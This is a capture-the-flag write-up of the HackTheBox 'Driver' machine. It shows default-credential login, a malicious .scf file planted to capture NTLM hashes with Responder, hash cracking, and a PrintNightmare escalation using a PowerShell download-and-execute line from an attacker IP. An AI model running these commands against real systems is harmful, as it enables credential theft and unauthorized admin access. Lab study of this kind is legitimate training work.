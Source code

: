 ```yaml
---
title: "Driver HTB"
date: 2022-05-08T17:30:30
categories:
  - study
tags:
  - Windows
  - Network
  - Printer
  - Arbitrary File Upload
classes: wide
---
```

Driver is a retired Windows machine rated Easy on the HacktheBox platform. It can be found [here.](https://app.hackthebox.com/machines/Driver)

<h2> Enumeration</h2>
**Nmap scan results:**

```
80/tcp  open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)   
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

<h2>Foothold</h2>

We navigate to the website running on port 80 and get a request for credentials. I attempt the first one in mind `admin:admin` and we seem to be let right in. From here we see: 

<img src="/assets/images/Driver/drv0.PNG" alt="index.php">

The only navigation bar links that work seem to be "Home" and "Firmware Updates". Navigating to the latter we see:

<img src="/assets/images/Driver/drv1.PNG" alt="We can upload?">

I upload a reverse php shell file but can't navigate to any file directories (It's windows...). I re-read the explanation of the service again: `upload the respective firmware update to our file share`. I see. It gets uploaded to a SMB file share. So a quick [google](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) informs me that use of files with the extension `.scf` can be used to execute certain commands. 

>*It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.*

We're instructed that we can use create a file with the following contents (replacing x.x.x.x with our IP:

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
We do this and then start up [responder](https://www.oreilly.com/library/view/mastering-kali-linux/9781787120235/080d49cf-9726-4bbc-ad96-49ef7cbe0729.xhtml) and upload our `@evil.scf` file.

We receive the NTLM hash for the user who checks our `.scf` file which is pointing at our machine and picked up by our listening responder. 

<img src="/assets/images/Driver/drv2.PNG" alt="Gottem.">

From here we save it into a file and use hashcat to crack it.

<img src="/assets/images/Driver/drv3.PNG" alt="liltony"> 

We see the user's credentials are "TONY:liltony". As port 5985 is open we can use `evil-winrm` to connect over winrm with these credentials. 

<img src="/assets/images/Driver/drv4.PNG" alt="liltony"> 

<h2>Privilege Escalation</h2>

From here, we explore the idea that this box could be print nightmare related. The printer management on port 80 gives a big hint. We see that the print Spooler service is running which means we should try the exploit.

<img src="/assets/images/Driver/drv5.PNG" alt="liltony"> 

Grabbing the exploit from [Caleb Stewart and John Hammond](https://github.com/JohnHammond/CVE-2021-34527) we run our classic python webserver and then use powershell on target to download the file with: 

```
iex(new-object net.webclient).downloadstring('http://10.10.14.9/nightmare.ps1')
```

From here we use the `Invoke-Nightmare` command to generate an admin account:

```
Invoke-Nightmare -NewUser "vanitas" -NewPassword "password"
```
<img src="/assets/images/Driver/drv6.PNG" alt="vanitas"> 

We sign-in as the user we just created and check our group membership.

<img src="/assets/images/Driver/drv7.PNG" alt="vanitas"> 

We have local admin and we can check the usual place for the root flag:

<img src="/assets/images/Driver/drv8.PNG" alt="Flag"> 

We also go back for the user flag we forgot:

<img src="/assets/images/Driver/drv9.PNG" alt="Flag"> 


<img src="/assets/images/Driver/drv10.PNG" alt="Flag"> 

<h4>For next time:</h4>

- Gotta remember the `.scf` SMB fileshare trick.




